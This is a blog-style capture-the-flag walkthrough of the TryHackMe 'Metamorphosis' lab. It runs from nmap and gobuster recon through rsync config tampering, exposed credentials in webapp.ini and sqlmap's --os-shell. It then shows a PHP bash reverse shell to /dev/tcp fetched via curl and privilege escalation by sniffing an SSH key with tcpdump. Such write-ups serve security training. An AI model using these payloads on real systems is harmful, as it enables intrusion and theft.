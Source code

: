 ```yaml
---
title: "Tryhackme Metamorphosis"
date: 2021-08-16T15:55:27+05:30
draft: true
toc: true
image: "images/github-pagesLightBlue.jpeg"
tags: ["blog", "GitHub Pages" ,"Hugo"]
categories: ["blog"]
---
```


## Overview
<img style="border:2px solid black" src="/images/metamorphosis.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

## Recon

### Nmap 

```bash
root@kali:~/tryhackme/metamorphosis#nmap -sC -sV  10.10.97.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:32 IST
Nmap scan report for 10.10.97.133 (10.10.97.133)
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 13s, deviation: 0s, median: 13s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-12T06:03:04+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T06:03:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds

```

### Gobuster

```bash

root@kali:~/tryhackme/metamorphosis/conf#gobuster dir -u 10.10.97.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.97.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/08/12 11:04:29 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 10818]
/admin                (Status: 301) [Size: 312] [--> http://10.10.97.133/admin/]
/inde.html            (Status: 200) [Size: 10918]                               
Progress: 56672 / 882244 (6.42%)               

```

### Visting Webpage

<img style="border:2px solid black" src="/images/forbidden.png" align="left"><br><br><br><br><br><br><br>


Viewing `source code` 

<img style="border:2px solid black" src="/images/sourcecode.png" align="left"><br><br><br><br>


## Rsync Enumeration

We have port 873 running which is `Rsync` you can read more about this here [hacktricks.xyz/pentesting/873-pentesting-rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

```bash
rsync -rdt rsync://10.10.38.244:873

we get | Conf            All Confs |

```

Listing content of `Conf`

```bash

rsync -rdt rsync://10.10.38.244:873/Conf
drwxrwxrwx          4,096 2021/04/11 01:33:08 .
-rw-r--r--          4,620 2021/04/10 01:31:22 access.conf
-rw-r--r--          1,341 2021/04/10 01:26:12 bluezone.ini
-rw-r--r--          2,969 2021/04/10 01:32:24 debconf.conf
-rw-r--r--            332 2021/04/10 01:31:38 ldap.conf
-rw-r--r--         94,404 2021/04/10 01:51:57 lvm.conf
-rw-r--r--          9,005 2021/04/10 01:28:40 mysql.ini
-rw-r--r--         70,207 2021/04/10 01:26:56 php.ini
-rw-r--r--            320 2021/04/10 01:33:16 ports.conf
-rw-r--r--            589 2021/04/10 01:31:07 resolv.conf
-rw-r--r--             29 2021/04/10 01:32:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/10 01:30:59 smb.conf
-rw-rw-r--             72 2021/04/11 01:33:06 webapp.ini

```
Downloading `Conf files` into local machine


```bash
rsync -av rsync://10.10.38.244:873/Conf ./conf

```

Reading all the files we got webapp.ini file 

```bash

cat webapp.ini 
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
````

The env variable is set to `prod` ... change this to `dev` (for development) and upload back new `webapp.ini` file to `server`.

```bash

rsync -av webapp.ini rsync://10.10.101.93:873/Conf/webapp.ini  

```

Going to the admin page again  `http://10.10.101.93/admin/`


<img style="border:2px solid black" src="/images/2.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>
 
Use `brupsuite` and save the request as `req.txt` file

## SQLmap

```bash
sqlmap -r req.txt --level 3 --risk 3 --batch --os-shell

```
<img style="border:2px solid black" src="/images/sqloutput.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>


## Getting Reverse Shell

Using curl to upload the `Shell.php`

```bash
root@kali:~/tryhackme/metamorphosis#cat shell.php

<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/your IP/1234 0>&1'");
```
In `Os-shell`

```bash
curl http://your IP/shell.php -o shell.php
```

access the shell.php in browser using `http://10.10.101.93/shell.php/`

and ` nc -lnvp 1234 ` in other terminal 

Get the `Rev shell` and `Upgrade`.

<img style="border:2px solid black" src="/images/revshell.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
  
Getting  `User.txt`

<img style="border:2px solid black" src="/images/user_txt.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>
 
## Privilege Escalation

Running `linpeas` we get that user can run `Tcpdump`

Running `Pspy64` we get

<img style="border:2px solid black" src="/images/pspyoutput.png" align="left"><br><br><br><br><br><br>

Now finally run tcpdump in `/var/www/html` and Get the output using `Wget`

<img style="border:2px solid black" src="/images/tcpdump.png" align="left"><br><br><br><br><br><br><br>

In Attakcer Machine run `wget http://10.10.101.93/1.pcap`

Open 1.pcap file in `Wireshark`

Follow `Tcp Stream` and Get `SSH Key`

<img style="border:2px solid black" src="/images/sshkey1.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

`Log in` with key and get `root.txt`

<img style="border:2px solid black" src="/images/root.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>


